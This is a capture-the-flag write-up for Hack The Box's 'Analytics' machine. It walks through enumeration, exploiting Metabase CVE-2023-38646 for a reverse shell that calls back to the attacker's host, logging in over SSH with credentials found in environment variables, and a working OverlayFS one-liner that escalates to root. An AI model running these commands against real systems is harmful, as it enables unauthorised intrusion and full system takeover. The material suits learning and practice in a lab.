









# Analytics

Analytics is a easy machine on HTB.

## Enumeration

First we check the open port via **nmap**.




The ports 22, 80 are open.
Let's check the port 80 first. For that we need to add the **domain** to our **hosts** file.

```bash
echo "10.10.11.233   analytical.htb" | sudo tee -a /etc/hosts
```


This is what you should see after browsing to the domain. It seems like a basic website. Let's perform some **dirsearch**.



Nothing of interest, let's try to login.


We have been redirected to the subdomain : `data.analytical.htb`. Don't forget to add it to your hosts file.

```bash
echo "10.10.11.233   data.analytical.htb" | sudo tee -a /etc/hosts
```

## Foothold



If we can obtain the version of **Metabase** maybe we can find some CVE. For that we can use curl.

```bash
curl http://data.analytical.htb/ | grep version
```



The version is : 0.46.6, we can search if fome exploit exist for this version. And there is this one, **CVE-2023-38646** which we can achieve Remote code execution pre authentication with it and so obtain a reverse shell. I will use [this poc](https://github.com/securezeron/CVE-2023-38646.git) to exploit the cve.

Git clone it, first we need to retrieve the setup token.



Now we can execute a reverse shell. Don't forget to setup a netcat listener.
```bash
python3 CVE-2023-38646-Reverse-Shell.py --rhost data.analytical.htb --lhost YOUR_IP --lport 1234
```


And we have a shell as **metadata** user !

## User flag

If we print the env, we can see two suspicious variable.



So let's try to login as `metalytics:An4lytics_ds20223#`.

```bash
ssh metalytics@10.10.11.233
```


We have the user flag !

## Privilege escalation

Let's obtain some information about the kernel with `uname -a` and `lsb_release -a`
We are on the version 6.2.0 of Ubuntu 22.04.3 LTS (Jammy Jellyfish).
[This](https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability) blog talk about a vulnerability whixh can lead to privilege escalation. And this version of the kernel is vulnerable to it. There are a lot of poc but we will use this one:

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```




